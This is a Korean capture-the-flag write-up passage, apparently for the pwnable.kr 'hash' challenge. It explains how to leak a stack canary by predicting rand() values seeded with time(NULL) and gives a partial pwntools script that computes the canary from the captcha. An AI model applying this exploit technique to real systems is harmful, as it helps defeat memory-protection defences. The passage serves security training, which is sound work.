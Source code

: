 ## stack canary 우회

### 1. bruteforce

제일 먼저 1byte씩 bruteforce하는 방법을 생각했다. 그러나 이 문제에서는 안된다.<br>
일단, hash 프로그램을 이용할 때마다 canary 값이 같다는 보장이 없다.<br>
같다고 치더라도, base64문을 decode하고 buf에 복사할 때 `BIO_read`함수를 사용하는데, 이 함수는 결과물의 맨 끝에 NULL문자를 붙여주기 때문에 또한 안된다.

### 2. my_hash함수

my_hash함수에서 captcha를 만들 때 stack canary값이 사용되기 때문에 captcha를 만드는 식을 알고 있으므로 다시 지지고 볶으면 stack canary값을 얻어낼 수 있다.<br>
문제는 그렇게 하기 위해서는 random값 8개를 알아내야 한다는 것인데, 이를 위해서는 srand에 들어가는 seed값을 알아내야한다는 것이다.<br><br>
srand에 seed값으로 time함수의 반환값을 사용하고 있다. **여기서 중요한 점은, time함수의 반환값의 단위는 ms가 아니라 그냥 s, 즉, 초단위이다.**<br>
따라서 srand(time(NULL))을 하고, 초가 바뀌기 전에 hash 프로그램의 srand(time(NULL))이 실행된다면, captcha를 만드는데 사용되는 random값을 알아낼 수 있다는 것이다.<br>
그리고 pwnable.kr 9002를 nc를 이용해서 접속하게 되면, 매우 느린 것 뿐만 아니라, 내 컴퓨터의 시각과 서버의 시각이 달라서 time함수의 반환값이 다를 수 있다는 것이다.<br>
따라서 pwnable.kr 서버에 아무 계정으로 접속을 한 후에, /tmp 폴더 아래에서 script를 짜서 진행했다.

```python
from pwn import *
import base64
from ctypes import *
from ctypes.util import find_library

libc = CDLL(find_library("c"))
libc.srand(libc.time(0))

p = remote("localhost", 9002)
p.recvuntil("Are you human? input captcha : ")
num = p.recvuntil("\n")

p.send(num)

num = int(num[:-1])

random_values = []
for _ in range(8):
    random_values.append(libc.rand())

canary = num - random_values[1]
canary -= random_values[2]
canary += random_values[3]
canary -= random_values[4]
canary -= random_values[5]
canary += random_values[6]
canary -= random_values[7]

# uint32_t로 범위 맞추기
while canary < 0:
    canary += 0x100000000
while canary >= 0x100000000:
    canary -= 0x100000000

'''
Welcome! you are authenticated.
Encode your data with BASE64 then paste me!
'''
p.recvline()
p.recvline()

```